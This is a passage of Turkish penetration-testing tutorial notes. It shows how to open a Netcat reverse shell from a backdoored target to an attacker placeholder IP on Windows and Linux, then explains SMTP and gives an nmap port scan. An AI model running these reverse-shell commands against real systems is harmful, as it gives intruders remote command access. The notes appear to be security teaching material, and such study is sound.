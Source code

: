 ### 📌 4. Netcat ile Session Açmak
### 📌 Hedef sisteme arka kapı yerleştirilerek Netcat ile session açılabilir.
### 📌 Adım 1: Dinleyici başlat:
```bash
nc -lvp 4444
```
### 📌 Adım 2: Hedef sistemde ters bağlantı aç:
Windows:
```bash
nc -e cmd.exe <saldırgan_ip> 4444
```
Linux:
```bash
nc -e /bin/bash <saldırgan_ip> 4444
```
### 📌 Session başarılı olursa, hedef sistemin komut satırına erişilir.

### 🚀 Sonuç
### ✔ Meterpreter, SSH ve Netcat kullanarak hedef sistemlerde session açabilirsiniz.
✔ Session’ları yönetmek için sessions komutlarını kullanabilirsiniz.
✔ Ters bağlantılar ve açık oturumlar ile sistem üzerinde kontrol sağlanabilir.
________________________________________________________________________________________________________________________________________________________________________________
### 📌 SMTP (Simple Mail Transfer Protocol) Nedir?
### 📌 SMTP (Simple Mail Transfer Protocol), e-posta gönderimi ve teslimi için kullanılan bir protokoldür.
📌 TCP 25, 465 (SSL) ve 587 (TLS) portlarını kullanır.

### 📌 1. SMTP Nasıl Çalışır?
SMTP, e-postaların bir istemciden (örneğin Outlook veya Gmail) bir e-posta sunucusuna ve oradan alıcının e-posta sunucusuna iletilmesini sağlar.

### 📌 Temel Aşamalar:
Gönderen SMTP sunucusuna bağlanır.
SMTP sunucusu, alıcı e-posta sunucusunu belirler (MX kaydı üzerinden).
E-posta, alıcı SMTP sunucusuna iletilir.
Alıcı, e-postayı POP3 veya IMAP ile çeker.
Örnek MX Kaydı (Mail Exchange) Kontrolü:
```bash
nslookup -type=MX gmail.com
```
### 📌 Bu komut, Gmail'in SMTP sunucularını gösterir.

### 📌 2. SMTP Portları ve Kullanım Alanları
Örnek: SMTP servisini Nmap ile taramak
```bash
nmap -p 25,465,587 <hedef_ip>
```
